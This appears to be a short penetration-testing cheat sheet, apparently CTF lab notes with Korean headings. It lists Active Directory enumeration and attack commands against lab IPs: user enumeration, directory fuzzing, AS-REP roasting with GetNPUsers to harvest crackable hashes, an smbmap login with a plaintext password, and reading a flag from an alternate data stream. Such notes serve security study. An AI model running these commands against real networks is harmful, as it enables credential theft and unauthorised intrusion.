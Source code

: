 ### 그룹 확인
```
whoami /groups
whoami /priv
```

### windapsearch
```
./windapsearch.py -d pinocure.com --dc-ip 10.10.10.175 -U
```

### impacket - GetADUsers.py
```
GetADUsers.py pinocure.com / -dc-ip 10.10.10.175 -debug
```

### ffuf
```
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.175/
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://pinocure.com:80/FUZZ
```

### username-anarchy
```
./username-anarchy --input-file fullnames.txt --select-format first,flast,first.last,firstl > unames.txt
```

### GetNPUsers.py
```
while read p; do GetNPUsers.py egotistical-bank.local/"$p" -request -no-pass -dc-ip 10.10.10.175 >> hash.txt; done < unames.txt
```
```
impacket-GetNPUsers -no-pass -usersfile userlist.txt -dc-ip 10.10.10.192 pinocure.com/
impacket-GetNPUsers -no-pass -usersfile userlist.txt -dc-ip 10.10.10.192 pinocure.com/ | grep -v 'KDC_ERR_C'
```

### hm.txt
```
more < hm.txt:root.txt
```

### smbmap
```
smbmap -H 10.10.10.182 -u "r.thompson" -p "rY4n5eva"
```

### dig
```
dig any pinocure.com @10.10.10.192
```
